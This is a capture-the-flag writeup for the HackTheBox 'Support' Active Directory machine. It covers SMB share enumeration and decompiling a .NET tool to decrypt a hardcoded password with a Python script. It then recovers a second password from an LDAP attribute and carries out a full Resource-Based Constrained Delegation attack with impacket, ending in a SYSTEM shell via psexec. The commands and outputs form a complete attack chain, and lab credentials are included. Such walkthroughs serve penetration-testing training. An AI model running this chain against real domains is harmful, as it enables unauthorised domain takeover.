# HackTheBox — Support (Active Directory)

A writeup for the **Support** machine on HackTheBox — an easy box focused on Active Directory. There are several ways to solve it; this is the path taken below.

## Table of Contents

- [1. Port Scanning](#1-port-scanning)
- [2. Adding the Domain to /etc/hosts](#2-adding-the-domain-to-etchosts)
- [3. Enumerating SMB Shares](#3-enumerating-smb-shares)
- [4. Analyzing UserInfo.exe](#4-analyzing-userinfoexe)
- [5. Finding the support User's Password](#5-finding-the-support-users-password)
- [6. Getting the User Flag](#6-getting-the-user-flag)
- [7. BloodHound: Finding a Path to Escalation](#7-bloodhound-finding-a-path-to-escalation)
- [8. Escalation via Resource-Based Constrained Delegation](#8-escalation-via-resource-based-constrained-delegation)
- [9. Getting the Root Flag](#9-getting-the-root-flag)

---

## 1. Port Scanning

Start with a standard port scan:

```bash
sudo nmap -sC -sV <ip>
```

Output:

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-31 22:40:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

Host script results:
| smb2-time:
|   date: 2026-10-31T22:40:54
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
```



This port set confirms it's Active Directory:

| Port | Service | Significance |
|------|---------|--------------|
| 53/tcp | DNS | critical for resolving hosts inside the domain |
| 88/tcp | Kerberos | authentication, issuing TGT/TGS tickets — key to many AD attacks |
| 389, 3268/tcp | LDAP / Global Catalog | AD directory service, used for recon (e.g. via BloodHound) |
| 445/tcp | SMB (microsoft-ds) | shared access to files/folders, vulnerability checks, interaction with admin shares (ADMIN$) |
| 5985/tcp | WinRM | interactive shell (Evil-WinRM) once valid credentials are obtained |

## 2. Adding the Domain to /etc/hosts

The domain `support.htb` was identified, so add it to `/etc/hosts`:

```bash
echo "<ip> support.htb dc.support.htb" | sudo tee -a /etc/hosts
```

**Why this matters:**

- **Name resolution.** The system doesn't know which IP `support.htb` and `dc.support.htb` map to. Without this entry, tools like bloodhound-python, impacket, and nxc won't be able to reach the server by domain name.
- **AD protocols.** Kerberos, LDAP, and SMB in a domain environment are tightly bound to hostnames and FQDNs. Without the domain in `/etc/hosts`, most exploit and automation tools can't build valid authentication requests.

## 3. Enumerating SMB Shares

**NetExec** (formerly CrackMapExec, `nxc`) is a tool for pentesting Windows networks and Active Directory: bulk credential checking, information gathering, and running commands over legitimate protocols (SMB, WinRM, LDAP, etc.).

**Shares** are network directories on Windows servers. Sensitive data often ends up there by accident:
- plaintext passwords (in text files or scripts);
- configuration files with database access;
- sensitive employee documents or backups;
- writable shares that allow uploading a malicious file (e.g. into autostart folders or web server directories).

Check shares as the guest account:

```bash
nxc smb <ip> -u "guest" -p "" --shares
```

```
SMB    <ip>  445  DC  [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB    <ip>  445  DC  [+] support.htb\guest:
SMB    <ip>  445  DC  [*] Enumerated shares
SMB    <ip>  445  DC  Share         Permissions  Remark
SMB    <ip>  445  DC  -----         -----------  ------
SMB    <ip>  445  DC  ADMIN$                     Remote Admin
SMB    <ip>  445  DC  C$                         Default share
SMB    <ip>  445  DC  IPC$          READ         Remote IPC
SMB    <ip>  445  DC  NETLOGON                   Logon server share
SMB    <ip>  445  DC  support-tools READ         support staff tools
SMB    <ip>  445  DC  SYSVOL                     Logon server share
```



Share breakdown:

- **ADMIN$ and C$** — default administrative shares. Only privileged accounts have access (guest showed no permissions).
- **IPC$ (READ)** — inter-process communication share, used for anonymous/authenticated enumeration of users, policies, and AD services; files can't be stored there.
- **NETLOGON and SYSVOL** — standard domain-controller shares: logon scripts, GPOs, domain configuration files.
- **support-tools (READ)** — a non-standard, custom share (described as "support staff tools"). Since the guest account has READ access, this is the prime candidate for initial inspection.

Connect to `support-tools` with `smbclient`:

```bash
smbclient //<ip>/support-tools -U "guest"
# just hit Enter for the password
```

```
smb: \> ls
  .                      D        0  Wed Jul 20 13:01:06 2022
  ..                     D        0  Sat May 28 07:18:25 2022
  7-ZipPortable_21.07.paf.exe     A  2880728  Sat May 28 07:19:19 2022
  npp.8.4.1.portable.x64.zip      A  5439245  Sat May 28 07:19:55 2022
  putty.exe                       A  1273576  Sat May 28 07:20:06 2022
  SysinternalsSuite.zip           A 48102161  Sat May 28 07:19:31 2022
  UserInfo.exe.zip                A   277499  Wed Jul 20 13:01:07 2022
  windirstat1_1_2_setup.exe       A    79171  Sat May 28 07:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe A 44398000  Sat May 28 07:19:43 2022

smb: \> get UserInfo.exe.zip
```



Among the standard admin utilities (PuTTY, Wireshark, Sysinternals), `UserInfo.exe.zip` stands out — download it with `get`.

## 4. Analyzing UserInfo.exe

Extract the archive:

```bash
unzip UserInfo.exe.zip
```

Contents: `UserInfo.exe`, `UserInfo.exe.config`, and a set of system DLLs (System.Threading.Tasks.Extensions, System.Runtime.CompilerServices, System.Numerics.Vectors, System.Memory, System.Buffers, Microsoft.Extensions.Logging, Microsoft.Extensions.Dependency*, Microsoft.Bcl.AsyncInterfaces, CommandLineParser) — a typical .NET assembly.



The interesting part is the `UserInfo.exe` binary. Decompile it with the online service [decompiler.com](https://www.decompiler.com), download and extract the result.



The key files are in the `UserInfo.Services` folder: `Protected.cs` and `LdapQuery.cs`.



### Protected.cs

```csharp
using System;
using System.Text;

namespace UserInfo.Services;

internal class Protected
{
    private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
    private static byte[] key = Encoding.ASCII.GetBytes("armando");

    public static string getPassword()
    {
        byte[] array = Convert.FromBase64String(enc_password);
        byte[] array2 = array;
        for (int i = 0; i < array.Length; i++)
        {
            array2[i] = (byte)(array[i] ^ key[i % key.Length] ^ 0xDF);
        }
        return Encoding.Default.GetString(array2);
    }
}
```

Decryption algorithm:

1. The `enc_password` string is Base64-decoded into a byte array.
2. Each byte is XOR'd with the key `"armando"` (cycled via the modulo operator `%`), and then additionally XOR'd with the byte mask `0xDF`.
3. The result is converted back to a string — yielding the plaintext password.

Reproduce it in Python:

```python
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

decoded_bytes = base64.b64decode(enc_password)
array2 = bytearray(decoded_bytes)
for i in range(len(decoded_bytes)):
    array2[i] = decoded_bytes[i] ^ key[i % len(key)] ^ 0xDF

print(array2.decode("utf-8", errors="ignore"))
```

```bash
$ python3 main.py
nvEfEK16^1aM4e7AclUf8xtRWxPWO1%lmz
```



### LdapQuery.cs

```csharp
using System;
using System.Collections;
using System.DirectoryServices;

namespace UserInfo.Services;

internal class LdapQuery
{
    private DirectoryEntry entry;
    private DirectorySearcher ds;

    public LdapQuery()
    {
        string password = Protected.getPassword();
        entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
        entry.AuthenticationType = (AuthenticationTypes)1;
        ds = new DirectorySearcher(entry);
    }

    public void query(string first, string last, bool verbose = false)
    {
        // builds an LDAP filter from first/last, prints sAMAccountName
    }

    public void printUser(string username, bool verbose = false)
    {
        // prints givenName, sn, mail, pwdLastSet for the given user
    }
}
```

`LdapQuery.cs` uses the decrypted password to bind to Active Directory as a domain service account:

```
User:     support\ldap
Password: nvEfEK16^1aM4e7AclUf8xtRWxPWO1%lmz
```

## 5. Finding the support User's Password

Port 5985 (WinRM) is open, but that alone doesn't mean the `ldap` account can connect — WinRM access normally requires membership in a relevant group (Administrators, Remote Management Users, etc.).

Check:

```bash
nxc winrm <ip> -u 'ldap' -p 'nvEfEK16^1aM4e7AclUf8xtRWxPWO1%lmz'
```

```
WINRM  <ip>  5985  DC  [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
WINRM  <ip>  5985  DC  [-] support.htb\ldap:nvEfEK16^1aM4e7AclUf8xtRWxPWO1%lmz
```



No rights for `ldap`. Check who belongs to the **Remote Management Users** group:

```bash
nxc ldap <ip> -u "ldap" -p 'nvEfEK16^1aM4e7AclUf8xtRWxPWO1%lmz' -d support.htb --groups "Remote Management Users"
```

```
LDAP  <ip>  389  DC  [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb) (signing:None) (channel binding:No TLS cert)
LDAP  <ip>  389  DC  [+] support.htb\ldap:nvEfEK16^1aM4e7AclUf8xtRWxPWO1%lmz
LDAP  <ip>  389  DC  support
```



The `support` user belongs to this group, but we don't have their password yet.

Check the standard `info` attribute for sensitive data:

```bash
nxc ldap <ip> -u 'ldap' -p 'nvEfEK16^1aM4e7AclUf8xtRWxPWO1%lmz' -d support.htb -M get-info-users
```

```
LDAP        <ip>  389  DC  [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
LDAP        <ip>  389  DC  [+] support.htb\ldap:nvEfEK16^1aM4e7AclUf8xtRWxPWO1%lmz
GET-INFO... <ip>  389  DC  [+] Found following users:
GET-INFO... <ip>  389  DC  User: support   Info: Ironside47pleasure40Watchful
```



Password found: **`Ironside47pleasure40Watchful`**.

## 6. Getting the User Flag

Connect via `evil-winrm`:

```bash
evil-winrm -i <ip> -u 'support' -p 'Ironside47pleasure40Watchful'
```

```
*Evil-WinRM* PS C:\Users\support\Documents> cat C:\Users\support\Desktop\user.txt
030efb9e13a5aa44...
```



User flag obtained.

## 7. BloodHound: Finding a Path to Escalation

With the `support` account we have standard domain access, but no obvious direct path to administrative rights. **BloodHound** is an AD security-analysis tool that uses graph theory to surface hidden paths and relationships between users, computers, groups, and access controls (ACLs).

It lets you:
- quickly collect permission and group-membership data across the whole domain (`bloodhound-python`);
- import the collected data into a graphical interface;
- find short privilege-escalation paths (e.g. a dangerous `GenericAll` right our user holds on the domain controller object, opening the door to a Resource-Based Constrained Delegation attack).

Collect domain data as `support`:

```bash
bloodhound-python -u 'support' -p 'Ironside47pleasure40Watchful' -d 'support.htb' \
  -dc 'dc.support.htb' -ns '<ip>' -c All
```

```
INFO: Found AD domain: support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Done in 00M 37S
```



Start Neo4j and BloodHound:

```bash
sudo neo4j start
```



```bash
bloodhound-start
```



Import the resulting `.json` files into the interface and analyze the graph.



**Finding:** the user `SUPPORT@SUPPORT.HTB` belongs to the group `SHARED SUPPORT ACCOUNTS@SUPPORT.HTB`, which holds **`GenericAll`** on the `DC.SUPPORT.HTB` object.

`GenericAll` effectively grants full control over an object (equivalent to administrative rights over that specific AD object). Since the object here is the domain controller, this opens a direct path to a **Resource-Based Constrained Delegation (RBCD)** attack, allowing full domain takeover.

## 8. Escalation via Resource-Based Constrained Delegation

With `GenericAll` on the domain controller, an RBCD attack lets a computer object we control obtain an authentication ticket as any user (including the domain administrator) on that controller.

### Step 1. Create a New Computer Account (TESTPC$)

By default, in most AD configurations, regular domain users can create up to 10 computer accounts in the domain (the `Ms-DS-Machine-Account-Quota` attribute). Use the `support` credentials:

```bash
impacket-addcomputer support.htb/support:Ironside47pleasure40Watchful \
  -computer-name 'TESTPC$' -computer-pass 'Password123!' -dc-ip <ip>
```

```
[*] Successfully added machine account TESTPC$ with password Password123!.
```



### Step 2. Configure Delegation Rights (RBCD)

Using the `GenericAll` right on the domain controller, modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the DC object, allowing our new `TESTPC$` computer to perform delegation:

```bash
impacket-rbcd support.htb/support:Ironside47pleasure40Watchful \
  -action write -delegate-from 'TESTPC$' -delegate-to 'DC$' -dc-ip <ip>
```

```
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] TESTPC$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     TESTPC$    (S-1-5-21-1677581083-3380853377-188903654-6101)
```



The attribute was updated successfully — `TESTPC$` can now impersonate other users on the domain controller (`DC$`).

### Step 3. Request a Service Ticket (S4U) Impersonating Administrator

Using the `TESTPC$` account, leverage S4U2Self and S4U2Proxy to obtain a Kerberos ticket (ccache) for the `Administrator` user against the domain controller's CIFS service:

```bash
impacket-getST support.htb/TESTPC$:Password123! -impersonate Administrator \
  -spn cifs/dc.support.htb -dc-ip <ip>
```

```
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```



### Step 4. Export the Kerberos Environment Variable

So Impacket tools use the obtained administrator ticket for authentication:

```bash
export KRB5CCNAME=$PWD/Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```



## 9. Getting the Root Flag

Connect to the domain controller via `psexec`, using the Kerberos ticket (no password needed):

```bash
impacket-psexec support.htb/Administrator@dc.support.htb -k -no-pass
```

```
[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file ibzlKeef.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service lbMV on dc.support.htb.....
[*] Starting service lbMV.....
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
6adfc1db969...
```



Successful connection: uploading the executable to the writable `ADMIN$` share, creating a temporary service, and obtaining an interactive shell with **NT AUTHORITY\SYSTEM** privileges on the domain controller.

---

## Attack Path Summary

1. Nmap scan confirms Active Directory (Kerberos, LDAP, SMB).
2. Guest access to the `support-tools` SMB share → download `UserInfo.exe.zip`.
3. Decompile `UserInfo.exe` → extract the hardcoded encrypted password and the XOR decryption algorithm.
4. Decrypt the `support\ldap` service account password.
5. LDAP enumeration of the `info` attribute → plaintext password for the `support` user.
6. WinRM connection as `support` → **user flag**.
7. BloodHound reveals `GenericAll` held by `support`'s group on the domain controller object.
8. RBCD attack: create a computer object → configure delegation → S4U2Self/S4U2Proxy → obtain an `Administrator` ticket.
9. `psexec` with the Kerberos ticket → **root flag** (NT AUTHORITY\SYSTEM).
